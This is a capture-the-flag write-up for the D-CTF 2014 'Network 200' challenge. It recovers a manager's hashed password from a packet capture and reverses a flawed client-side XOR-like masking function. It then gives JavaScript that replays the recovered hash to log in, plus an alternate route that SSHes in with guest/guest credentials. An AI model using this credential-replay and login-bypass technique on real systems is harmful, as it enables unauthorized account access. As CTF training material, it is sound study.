 # D-CTF 2014: Network 200 – The Manager is back

**Category:** Network
**Points:** 200
**Description:**

> That fucking manager got smarter. He moved to house number 22, but we got this: [fuckmanagers.pcap](manager.pcap)

## Write-up

After looking at [the provided packet capture file](manager.pcap) in Wireshark for a while, we spot a single `POST` request (easily visible using the `http.request.method == "POST"` filter). Right-click on the packet and select _Copy_ → _Bytes_ → _Printable Text Only_ to get its details:

```
E8@@


%RP5gO*M
odLPOST / HTTP/1.1
Host: 10.13.37.22
Connection: keep-alive
Content-Length: 89
Cache-Control: max-age=0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Origin: http://10.13.37.22
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/38.0.2125.101 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Referer: http://10.13.37.22/
Accept-Encoding: gzip,deflate
Accept-Language: en-US,en;q=0.8,ro;q=0.6,ru;q=0.4
Cookie: PHPSESSID=7hnoc09he3vtohslep97fdm8o0

user=manager&nonce=7413734ab666ce02cf27c9862c96a8e7&pass=3ecd6317a873b18e7dde351ac094ee3b
```

There is indeed a login form hosted at `http://10.13.37.22/` (“house number 22”). Let’s try submitting the same username, nonce, and password as found in the packet capture file:

```bash
$ curl --data 'user=manager&nonce=7413734ab666ce02cf27c9862c96a8e7&pass=3ecd6317a873b18e7dde351ac094ee3b' http://10.13.37.22/
Invalid nonce.
```

Ah, that would’ve been too easy.

Looking more closely at the login page, we find out the password is hashed and XORed with a nonce on the client-side before submitting it as `POST` data:

```js
$('.hook-submit').click(function(){
  var h1 = md5($('#pass').val());
  var h2 = $('#nonce').val();
  var xor = myxor(h1, h2);
  $('#hiddenpass').val(xor);
  setTimeout(function() { $('#form').submit(); }, 100);
});
```

This means that the `password` value that was recorded in the packet capture file (i.e. `3ecd6317a873b18e7dde351ac094ee3b`) is the result of `myxor(md5(password), '7413734ab666ce02cf27c9862c96a8e7')` for some value of `password`.

```
'3ecd6317a873b18e7dde351ac094ee3b' == myxor(md5(password), '7413734ab666ce02cf27c9862c96a8e7')
```

However, some quick testing reveals that the `myxor` function is not actually a XOR implementation:

```js
myxor('a', 'a');
// → '4'
myxor('b', 'b');
// → '6'
```

A true XOR function would return `0` in both cases (since `A ⊕ A = 0` for XOR ciphers).

All we need to do is find out what the original value of `password` was. Actually, it would be sufficient to find out what `md5(password)` was – then we could just `myxor()` it with the nonce the page presented, and submit that as `POST` data.

To do either of these things, we have to reverse the `myxor()` function as found in <http://10.13.37.22/js/scripts.js>. Here’s what the original code looks like:

```js
function is_numeric(mixed_var) {
  var whitespace =
    " \n\r\t\f\x0b\xa0\u2000\u2001\u2002\u2003\u2004\u2005\u2006\u2007\u2008\u2009\u200a\u200b\u2028\u2029\u3000";
  return (typeof mixed_var === 'number' || (typeof mixed_var === 'string' && whitespace.indexOf(mixed_var.slice(-1)) === -
    1)) && mixed_var !== '' && !isNaN(mixed_var);
}

function ord(string) {
  var str = string + '',
    code = str.charCodeAt(0);
  if (0xD800 <= code && code <= 0xDBFF) {
    var hi = code;
    if (str.length === 1) {
      return code;
    }
    var low = str.charCodeAt(1);
    return ((hi - 0xD800) * 0x400) + (low - 0xDC00) + 0x10000;
  }
  if (0xDC00 <= code && code <= 0xDFFF) {
    return code;
  }
  return code;
}

function chr(codePt) {

  if (codePt > 0xFFFF) {
    codePt -= 0x10000;
    return String.fromCharCode(0xD800 + (codePt >> 10), 0xDC00 + (codePt & 0x3FF));
  }
  return String.fromCharCode(codePt);
}

function hex2n(c) {
  if(is_numeric(c)) return parseInt(c);
  return ord(c) - ord('a') + 10;
}

function n2hex(n) {
  if(n < 10) { return '' + n; }
  return chr(ord('a') + n - 10);
}

function myxor(h1, h2) {
  var xored = '';
  for(i = 0; i<h1.length; i++) {
    var c1 = h1.charAt(i);
    var c2 = h2.charAt(i);
    xored += n2hex((hex2n(c1) + hex2n(c2)) % 16);
  }
  return xored;
}
```

After reversing, that becomes:

```js
function reversemyxor(xored) {
  var h2 = '7413734ab666ce02cf27c9862c96a8e7'; // The nonce that was used by the manager.
  var h1 = '';
  for (var i = 0; i < xored.length; i++) {
    var x1 = xored.charAt(i); // == n2hex((hex2n(c1) + hex2n(c2)) % 16)
    var c2 = h2.charAt(i);
    // Find `c1`, knowing that:
    // x1 == n2hex((hex2n(c1) + hex2n(c2)) % 16)
    // hex2n(x1) == (hex2n(c1) + hex2n(c2)) % 16
    // hex2n(x1) == ((hex2n(c1) % 16) + (hex2n(c2) % 16)
    // hex2n(x1) - (hex2n(c2) % 16) == hex2n(c1) % 16
    // n2hex(hex2n(x1) - (hex2n(c2) % 16)) == c1
    var number = hex2n(x1) - (hex2n(c2) % 16);
    if (number < 0) {
      number += 16;
    }
    var c1 = n2hex(number);
    h1 += c1;
  }
  return h1;
}
```

With this, we can find out what `md5(password)` was for the manager, before it got XORed with the nonce `7413734ab666ce02cf27c9862c96a8e7`:

```js
reversemyxor('3ecd6317a873b18e7dde351ac094ee3b');
// → 'cabaf0ddf21df38cbeb77c94a40e4654'
```

Since `cabaf0ddf21df38cbeb77c94a40e4654` is not a known MD5 hash, we cannot easily find out what the actual password is. But we can use this MD5 hash and XOR it with the nonce we get when we open the login page, and then submit the resulting values as `POST` data. Here’s a JavaScript snippet that does just that — run it in your favorite browser’s DevTools console on the login page:

```js
// XOR the hash we found with the given nonce.
var nonce = $('#nonce').val();
var hash = 'cabaf0ddf21df38cbeb77c94a40e4654';
var xored = myxor(hash, nonce);

// Fill out the form.
$('#user').val('manager');
$('#pass').val(xored);
$('#hiddenpass').val(xored);

// Remove the existing hooks.
$('.hook-submit').unbind();

// Submit the form.
$('#form').submit();
```

After this, we are successfully logged in, and the website displays this message:

> The secret is behind bb00403ebcbfa0748bcbee426acfdb5b :)

A quick Google search reveals that `bb00403ebcbfa0748bcbee426acfdb5b` is the MD5 hash for the string `youtoo`.

The flag is `youtoo`.

### Alternate solution

Similar to how the Network 100 challenge was solved by SSHing into the box, we successfully SSHed into Network 200’s box using `ssh guest@10.13.37.22` and `guest` as the password.

Navigating and listing the directory of `/var/www` gave up a `html` folder, and `ls /var/www/html` reveals some folders and an `index.php` file. Running `cat /var/www/html/index.php` reveals some interesting PHP code at the top of the file. One line reads:

> The secret is behind bb00403ebcbfa0748bcbee426acfdb5b :)

Googling `bb00403ebcbfa0748bcbee426acfdb5b` reveals that it is the MD5 hash of the string `youtoo`, which is the flag.

## Other write-ups and resources

* none yet
